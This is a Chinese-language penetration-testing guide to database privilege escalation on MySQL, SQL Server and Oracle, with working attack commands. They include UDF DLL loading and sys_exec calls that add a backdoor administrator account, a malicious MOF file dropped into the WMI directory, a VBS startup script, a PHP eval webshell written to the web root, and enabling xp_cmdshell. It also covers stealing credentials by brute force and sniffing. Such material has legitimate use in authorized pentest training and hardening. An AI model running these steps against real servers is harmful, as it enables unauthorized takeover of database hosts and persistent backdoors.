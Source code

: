 #### 概述 (Overview)
当获得数据库的高权限访问（如 MySQL 的 root、SQL Server 的 sa、Oracle 的 SYSDBA）后，可以利用数据库自身提供的功能（如用户自定义函数 UDF、存储过程、外部命令执行接口等）或漏洞，在数据库服务器所在的操作系统上执行命令或获取 Shell，从而将数据库权限提升为操作系统权限。

#### MySQL 提权

1.  **获取 MySQL 账号密码 (Gaining Credentials)**
    *   **Web 应用配置文件**: 查找常见的配置文件名 (`config.php`, `database.yml`, `web.config`, `conn.inc` 等) 读取数据库连接字符串。
    *   **暴力破解**: 如果 MySQL 端口 (默认 3306) 对外开放，使用 Hydra, Medusa, Nmap NSE 脚本等进行在线爆破。
    *   **读取物理文件 (需 OS 权限)**: 读取 MySQL 数据目录下的 `mysql/user.MYD` 文件（包含用户信息，密码为 HASH），需离线破解。
    *   **嗅探**: 在网络中嗅探未加密的 MySQL 连接。
    *   **其他漏洞**: 利用 Web 应用漏洞（如 SQL 注入、文件读取）获取凭据。
    *   **开启远程访问 (需要 root 权限)**:
        ```sql
        GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'your_password';
        FLUSH PRIVILEGES;
        ```

2.  **利用 UDF (User-Defined Functions) 提权**
    *   **原理**: 创建一个自定义函数（通常用 C/C++ 编写并编译为共享库 `.so` 或 `.dll`），该函数可以调用系统命令。然后通过 SQL 语句调用这个 UDF 函数。
    *   **利用条件**:
        *   获取了 MySQL 的高权限账户（如 root），至少有 `INSERT`, `DELETE` 权限和 `CREATE FUNCTION` 权限。
        *   知道 MySQL 的插件目录 (`plugin_dir`) 路径，并且该目录或其上级目录对 MySQL 进程可写（或能通过其他方式将 DLL/SO 文件写入）。
        *   (Windows) 可能需要绕过 AppArmor/SELinux 等安全限制。
    *   **步骤 (以 Windows DLL 为例)**:
        1.  **确定插件目录**: `show variables like '%plugin_dir%';`
        2.  **准备 UDF 库**: 获取预编译的 `udf.dll` (如 `lib_mysqludf_sys` 提供的 `sys_exec`, `sys_eval`) 或自行编译。
        3.  **上传/写入 DLL**:
            *   如果 `plugin_dir` 可直接写入，使用 `SELECT ... INTO DUMPFILE` 将 DLL 的十六进制内容写入。
            *   如果目录不存在或不可写，尝试利用 NTFS ADS 流创建目录：
                ```sql
                -- 假设插件目录是 C:\mysql\lib\plugin\
                -- (注意：这种方法可能不可靠或已被修复)
                select 'data' into dumpfile 'C:\\mysql\\lib::$INDEX_ALLOCATION';
                select 'data' into dumpfile 'C:\\mysql\\lib\\plugin::$INDEX_ALLOCATION';
                -- 然后再尝试写入 DLL
                select 0x4D5A90... into dumpfile 'C:\\mysql\\lib\\plugin\\udf.dll';
                ```
            *   更好的方法是利用其他漏洞（如文件上传）或 OS 权限将 DLL 放入插件目录。
            *   **旧版本路径**: MySQL < 5.1 可能尝试写入 `C:\Windows\System32` 或 `C:\Winnt\System32`。
        4.  **创建函数**:
            ```sql
            CREATE FUNCTION sys_exec RETURNS STRING SONAME 'udf.dll'; -- (或对应的 .so 文件)
            ```
        5.  **执行命令**:
            ```sql
            SELECT sys_exec('net user hacker hacker /add');
            SELECT sys_exec('net localgroup administrators hacker /add');
            ```
        6.  **清理**:
            ```sql
            DROP FUNCTION sys_exec;
            -- (可选) 删除 DLL 文件
            ```
    *   **自动化工具**: "MySQL 综合利用工具" 等图形化工具简化了此过程。

3.  **利用 MOF (Managed Object Format) 提权 (Windows)**
    *   **原理**: Windows Management Instrumentation (WMI) 会周期性地编译 `C:\Windows\System32\wbem\mof\` 目录下的 `.mof` 文件，并以 SYSTEM 权限执行其中定义的 WMI 事件消费者。可以通过构造恶意的 `.mof` 文件（定义一个执行命令的消费者）并将其写入该目录来实现提权。
    *   **利用条件**:
        *   获取了 MySQL 的 `FILE` 权限（通常 root 有）。
        *   MySQL 配置未启用 `secure-file-priv` 或其允许写入 `wbem/mof` 目录。
        *   目标是 Windows 系统。
    *   **步骤**:
        1.  **准备 MOF 文件**: 编写一个 `.mof` 文件，其内容定义一个 WMI 事件过滤器和消费者，消费者执行恶意命令（如添加用户）。网上有现成的模板。
        2.  **上传 MOF 文件**: 将 `.mof` 文件上传到服务器的可写目录（如 `C:\wmpub\evil.mof`）。
        3.  **写入 MOF 目录**: 使用 `SELECT ... INTO DUMPFILE` 将 MOF 文件内容写入目标目录。
            ```sql
            SELECT LOAD_FILE('C:/wmpub/evil.mof') INTO DUMPFILE 'C:/Windows/System32/wbem/mof/evil.mof';
            ```
        4.  **等待执行**: WMI 会自动编译并执行该 MOF 文件中的指令（通常很快）。
        5.  **验证**: 检查命令是否已执行（如 `net user` 查看是否添加了用户）。
    *   **风险**: MOF 文件会被周期性执行，可能导致重复添加用户等问题。需要设计好 MOF 文件或及时清理。

4.  **利用 `SELECT ... INTO OUTFILE/DUMPFILE` 写文件**
    *   **原理**: 直接利用 `FILE` 权限将恶意内容写入特定位置的文件，实现代码执行或配置修改。
    *   **写入启动项 (VBS 示例)**:
        ```sql
        -- 创建临时表存储 VBS 代码行
        CREATE TABLE temp_vbs (line TEXT);
        INSERT INTO temp_vbs VALUES ('Set wshshell = CreateObject("WScript.Shell")');
        INSERT INTO temp_vbs VALUES ('a = wshshell.run("cmd.exe /c net user hacker hacker /add", 0)');
        INSERT INTO temp_vbs VALUES ('b = wshshell.run("cmd.exe /c net localgroup Administrators hacker /add", 0)');
        -- 将表内容导出为 VBS 文件到启动目录
        SELECT line FROM temp_vbs INTO OUTFILE 'C:/Documents and Settings/Administrator/Start Menu/Programs/Startup/evil.vbs'; -- (路径可能因系统版本和用户名而异)
        DROP TABLE temp_vbs;
        ```
        *   **触发**: 需要等待用户下次登录或系统重启。
    *   **写入 WebShell**: 如果知道 Web 目录路径且有权限，可以直接写入 WebShell。
        ```sql
        SELECT '<?php @eval($_POST["cmd"]);?>' INTO OUTFILE '/var/www/html/shell.php';
        ```

#### SQL Server (MSSQL) 提权

*   **前提**: 通常需要 `sa` (System Administrator) 权限或具有 `CONTROL SERVER` 权限的用户。
*   **常用方法**:
    1.  **`xp_cmdshell`**:
        *   **原理**: 内建的扩展存储过程，允许执行操作系统命令。默认可能被禁用。
        *   **启用**:
            ```sql
            -- 启用高级选项
            EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
            -- 启用 xp_cmdshell
            EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
            ```
        *   **执行命令**: `EXEC master..xp_cmdshell 'whoami';`
        *   **执行权限**: 通常以 SQL Server 服务账户的权限运行。如果服务账户是高权限用户（如 LocalSystem, NetworkService 或配置的域用户），即可提权。
    2.  **沙盒提权 (SQL Server 2005+)**: 利用 CLR 集成、OLE Automation Objects (`sp_OACreate`, `sp_OAMethod`) 等执行 OS 命令。
    3.  **其他存储过程/功能**: 如涉及文件系统操作、注册表操作的存储过程。
*   **获取凭据**:
    *   查找 Web 应用配置文件 (`web.config` 等)。
    *   暴力破解 (端口 1433)。
    *   嗅探。
*   **自动化工具**: SQLTools, Metasploit 相关模块 (`admin/mssql/mssql_enum`, `exploit/windows/mssql/mssql_payload` 等)。

#### Oracle 提权

*   **前提**: 通常需要 `SYSDBA`, `DBA` 权限或具有特定权限（如 `CREATE ANY PROCEDURE`, `CREATE LIBRARY`, `EXECUTE ON JAVA.LANG.RUNTIME`）的用户。
*   **常用方法**:
    1.  **Java Stored Procedures**:
        *   **原理**: Oracle 支持使用 Java 编写存储过程。可以编写一个调用 `java.lang.Runtime.getRuntime().exec()` 的 Java 存储过程来执行 OS 命令。
        *   **需要权限**: `CREATE PROCEDURE`, `EXECUTE ON JAVA.LANG.RUNTIME`。
    2.  **External Procedures (`extproc`)**:
        *   **原理**: 调用在操作系统上编译的外部共享库 (.so/.dll) 中的函数。需要配置 `listener.ora` 和 `tnsnames.ora`。可以编写一个执行命令的外部库。
    3.  **Scheduler Jobs**: 创建一个数据库作业 (Job)，使其执行包含 OS 命令的 PL/SQL 块或调用上述 Java/External Procedure。
    4.  **PL/SQL 包**: 利用 `UTL_FILE` (文件操作)、`DBMS_XMLQUERY` (可能触发 XXE 或 SSRF)、`DBMS_ADVISOR.CREATE_FILE` (写文件) 等包中的过程。
*   **获取凭据**: Web 应用配置文件、默认口令 (如 `scott/tiger`, `sys/change_on_install`)、暴力破解 (端口 1521)。
*   **自动化工具**: OracleShell, Metasploit 相关模块。
